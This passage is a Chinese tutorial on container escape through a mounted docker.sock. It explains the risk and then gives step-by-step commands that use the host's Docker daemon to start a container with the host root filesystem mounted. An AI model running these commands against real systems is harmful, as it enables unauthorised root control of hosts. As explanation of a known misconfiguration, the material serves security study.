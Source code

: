     其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载 `/var/run/docker.sock` 文件。

    本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。

    因此，当容器访问 docker socket 时，我们可通过与 docker daemonv 的通信对其进行恶意操纵完成逃逸。若容器A可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。

1. 首先运行一个挂载 `/var/run/` 的容器
    ```bash
    docker pull ubuntu:18.04
    docker run -it -v /var/run/:/host/var/run/ ubuntu:18.04 /bin/bash
    ```

2. 寻找下挂载的 sock 文件
    ```bash
    find / -name docker.sock
    ```

3. 在容器内安装 Docker 作为 client
    ```bash
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" > /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    apt-get update
    apt-get install -y docker.io vim

    echo "nameserver 114.114.114.114" > /etc/resolv.conf
    ```

4. 查看宿主机 docker 信息
    ```bash
    docker -H unix:///host/var/run/docker.sock info
    ```

5. 运行一个新容器并挂载宿主机根路径
    ```bash
    docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash
    ```
